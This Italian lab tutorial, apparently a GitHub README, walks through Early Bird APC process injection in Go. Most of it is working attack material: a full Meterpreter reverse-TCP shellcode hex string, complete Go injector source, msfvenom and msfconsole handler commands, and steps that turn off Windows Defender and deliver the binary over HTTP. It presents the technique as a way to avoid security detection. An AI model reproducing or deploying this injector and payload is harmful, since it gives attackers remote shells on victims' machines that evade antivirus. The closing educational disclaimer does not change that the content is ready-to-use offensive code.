








# Go EarlyBird - Tecnica di Iniezione APC

## Panoramica

Questo laboratorio dimostra la tecnica di **Early Bird APC Injection** implementata in Go. Questo metodo di code injection permette di eseguire shellcode in un processo Windows sfruttando le Asynchronous Procedure Calls (APC) prima che il thread principale venga eseguito.

Il vantaggio principale di Early Bird è che lo shellcode viene eseguito **prima** del thread principale, rendendo più difficile il rilevamento da parte delle soluzioni di sicurezza.

---

## Come Funziona

```
1. CreateProcess (suspended)
         |
         v
2. VirtualAllocEx (alloca memoria nel processo target)
         |
         v
3. WriteProcessMemory (scrive lo shellcode)
         |
         v
4. VirtualProtectEx (cambia i permessi a RX)
         |
         v
5. QueueUserAPC (schedula l'esecuzione dello shellcode)
         |
         v
6. ResumeThread (esegue lo shellcode)
```

---

## Ambiente di Test

| Macchina | OS | IP | Ruolo |
|----------|----|----|-------|
| Attacker | Kali Linux | 192.168.23.128 | Generazione payload e listener |
| Target | Windows 10 | 192.168.23.130 | Esecuzione del binario |

---

## Prerequisiti

### Kali Linux
- Go 1.16+ installato (`go version`)
- Metasploit Framework installato (`msfvenom --help`)
- Git installato (`git --version`)

### Windows 10
- Windows Defender disabilitato (per il laboratorio)
- Privilegi di amministratore (consigliati)

---

## Procedura Passo-Passo

### Step 1: Clona il Repository go-shellcode (Kali)

```
cd ~/Desktop/earlybird_lab
git clone https://github.com/Ne0nd0g/go-shellcode.git
cd go-shellcode/cmd/EarlyBird
```

### Step 2: Genera lo Shellcode (Kali)

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.23.128 LPORT=4445 -f hex`

**Output atteso (esempio):**

```
fc4883e4f0e8cc00000041514150524831d2515665488b5260488b5218488b5220488b725041b9304dac4e480fb74a484831c0ac3c617c022c2041c1c90d4101c1e2ed52488b52208b423c4801d0668178180b0241510f856f0000008b80880000004885c074644801d08b4818448b40204901d050e353448b4c240848ffc9418b34884801d64831c041c1c90dac4101c138e075f14539d175db58448b40244901d066418b0c48448b401c4901d0418b048841584801d041585e595a41584159415a4883ec204152ffe05841595a488b12e94bffffff5d49be7773325f3332000041564989e64881eca00100004989e549bc0200115dc0a8178041544989e44c89f141ba68ac82c9ffd54c89ea68010100005941ba4dfe0185ffd56a0a415e50504d31c94d31c048ffc04889c248ffc04889c141ba0e8e7565ffd54889c76a1041584c89e24889f941ba63387223ffd585c0740a49ffce75e5e8930000004883ec104889e24d31c96a0441584889f941ba6abe50d5ffd583f8007e554883c4205e89f66a404159680010000041584889f24831c941ba74d9afa7ffd54889c34989c74d31c94989f04889da4889f941ba6abe50d5ffd583f8007d2858415759680040000041586a005a41bad3e2de06ffd5575941ba74836cc2ffd549ffcee93cffffff4801c34829c64885f675b441ffe7586a005941bab869722dffd5
```

**Copia questa stringa hex** – ti servirà per il passo successivo.

---

### Step 3: Modifica il Codice Go (Kali)

`mousepad main.go`

Sostituisci tutto il contenuto con il seguente codice:

```
//go:build windows

package main

import (
	"encoding/hex"
	"flag"
	"fmt"
	"log"
	"os"
	"syscall"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	verbose := flag.Bool("verbose", false, "Enable verbose output")
	program := flag.String("program", "C:\\Windows\\System32\\notepad.exe", "Target process to inject")
	flag.Usage = func() {
		flag.PrintDefaults()
		os.Exit(0)
	}
	flag.Parse()

	shellcode, err := hex.DecodeString("fc4883e4f0e8cc00000041514150524831d2515665488b5260488b5218488b5220488b725041b9304dac4e480fb74a484831c0ac3c617c022c2041c1c90d4101c1e2ed52488b52208b423c4801d0668178180b0241510f856f0000008b80880000004885c074644801d08b4818448b40204901d050e353448b4c240848ffc9418b34884801d64831c041c1c90dac4101c138e075f14539d175db58448b40244901d066418b0c48448b401c4901d0418b048841584801d041585e595a41584159415a4883ec204152ffe05841595a488b12e94bffffff5d49be7773325f3332000041564989e64881eca00100004989e549bc0200115dc0a8178041544989e44c89f141ba68ac82c9ffd54c89ea68010100005941ba4dfe0185ffd56a0a415e50504d31c94d31c048ffc04889c248ffc04889c141ba0e8e7565ffd54889c76a1041584c89e24889f941ba63387223ffd585c0740a49ffce75e5e8930000004883ec104889e24d31c96a0441584889f941ba6abe50d5ffd583f8007e554883c4205e89f66a404159680010000041584889f24831c941ba74d9afa7ffd54889c34989c74d31c94989f04889da4889f941ba6abe50d5ffd583f8007d2858415759680040000041586a005a41bad3e2de06ffd5575941ba74836cc2ffd549ffcee93cffffff4801c34829c64885f675b441ffe7586a005941bab869722dffd5")
	if err != nil {
		log.Fatalf("[!] Failed to decode shellcode: %v", err)
	}

	winAPI := windows.NewLazySystemDLL("kernel32.dll")
	procVirtualAllocEx := winAPI.NewProc("VirtualAllocEx")
	procVirtualProtectEx := winAPI.NewProc("VirtualProtectEx")
	procWriteProcessMemory := winAPI.NewProc("WriteProcessMemory")
	procQueueUserAPC := winAPI.NewProc("QueueUserAPC")

	procInfo := &windows.ProcessInformation{}
	startupInfo := &windows.StartupInfo{
		Flags:      windows.STARTF_USESHOWWINDOW,
		ShowWindow: 1,
	}

	err = windows.CreateProcess(
		syscall.StringToUTF16Ptr(*program),
		nil,
		nil,
		nil,
		true,
		windows.CREATE_SUSPENDED,
		nil,
		nil,
		startupInfo,
		procInfo,
	)
	if err != nil {
		log.Fatalf("[!] CreateProcess failed: %v", err)
	}
	defer windows.CloseHandle(procInfo.Process)
	defer windows.CloseHandle(procInfo.Thread)

	if *verbose {
		fmt.Printf("[*] Process created (PID: %d)\n", procInfo.ProcessId)
	}

	addr, _, _ := procVirtualAllocEx.Call(
		uintptr(procInfo.Process),
		0,
		uintptr(len(shellcode)),
		windows.MEM_COMMIT|windows.MEM_RESERVE,
		windows.PAGE_READWRITE,
	)
	if addr == 0 {
		log.Fatal("[!] VirtualAllocEx failed")
	}
	if *verbose {
		fmt.Printf("[*] Memory allocated at: 0x%x\n", addr)
	}

	ret, _, _ := procWriteProcessMemory.Call(
		uintptr(procInfo.Process),
		addr,
		uintptr(unsafe.Pointer(&shellcode[0])),
		uintptr(len(shellcode)),
		0,
	)
	if ret == 0 {
		log.Fatal("[!] WriteProcessMemory failed")
	}
	if *verbose {
		fmt.Printf("[*] Shellcode written (%d bytes)\n", len(shellcode))
	}

	var oldProtect uint32
	ret, _, _ = procVirtualProtectEx.Call(
		uintptr(procInfo.Process),
		addr,
		uintptr(len(shellcode)),
		windows.PAGE_EXECUTE_READ,
		uintptr(unsafe.Pointer(&oldProtect)),
	)
	if ret == 0 {
		log.Fatal("[!] VirtualProtectEx failed")
	}
	if *verbose {
		fmt.Println("[*] Memory permissions changed to PAGE_EXECUTE_READ")
	}

	ret, _, _ = procQueueUserAPC.Call(
		addr,
		uintptr(procInfo.Thread),
		0,
	)
	if ret == 0 {
		log.Fatal("[!] QueueUserAPC failed")
	}
	if *verbose {
		fmt.Println("[*] Shellcode queued as APC")
	}

	if _, err := windows.ResumeThread(procInfo.Thread); err != nil {
		log.Fatalf("[!] ResumeThread failed: %v", err)
	}

	if *verbose {
		fmt.Println("[+] Injection complete. Check your listener.")
	}
}
```

Nella riga `shellcode, err := hex.DecodeString("...")`, sostituisci la stringa hex tra le virgolette con quella generata in precedenza.

**Salva e chiudi il file.**

---

### Step 4: Compila per Windows (Kali)

```
export GOOS=windows GOARCH=amd64
go build -ldflags="-s -w" -o earlybird.exe main.go
```

**Verifica il binario compilato:**

```
ls -la earlybird.exe
file earlybird.exe
```

### Step 5: Avvia il Server HTTP e il Listener Metasploit

Terminale 1:
```
cd ~/Desktop/earlybird_lab
python3 -m http.server 8001
```

Terminale 2:  
`msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.23.128; set LPORT 4445; exploit"`



---

### Step 7: Disabilita Windows Defender (Windows 10)



---

### Step 8: Scarica il Payload (Windows 10)

Apri il browser e naviga su:

`http://192.168.23.128:8001/go-shellcode/cmd/EarlyBird/earlybird.exe`

**Salva il file in** `C:\Users\admin\Desktop\`

---

### Step 9: Esegui il Payload (Windows 10 - CMD Admin)

```
cd C:\Users\admin\Desktop
earlybird.exe --verbose
```



---

### Step 10: Verifica la Connessione (Kali - Metasploit)





## Verifica dell`Attacco (Windows 10)

### 1. Controlla il Processo (Task Manager)

- Apri **Task Manager** (`CTRL+MAIUSC+ESC`)
- Vai su **Dettagli**
- Cerca `notepad.exe` (il PID corrisponde a quello mostrato nell'output verbose)
- Il processo appare **normale** (non sospeso) – questo è il comportamento atteso

### 2. Verifica (Windows 10)







---

## Pulizia

### Su Windows 10

```
# Termina il processo infetto
taskkill /PID 4076 /F

# Elimina il file scaricato
del C:\Users\admin\Desktop\earlybird.exe

# Riattiva Windows Defender
```

### Su Kali Linux

```
# Chiudi Metasploit
exit

# Ferma il server HTTP
CTRL+C

# Rimuovi i file del laboratorio (opzionale)
rm -rf ~/Desktop/earlybird_lab
```

---

## Disclaimer

> **⚠️ ATTENZIONE**: Questo laboratorio è a scopo puramente educativo. Utilizza solo in ambienti autorizzati e isolati. L'uso non autorizzato di queste tecniche su sistemi di cui non si possiede il controllo è illegale e perseguibile per legge.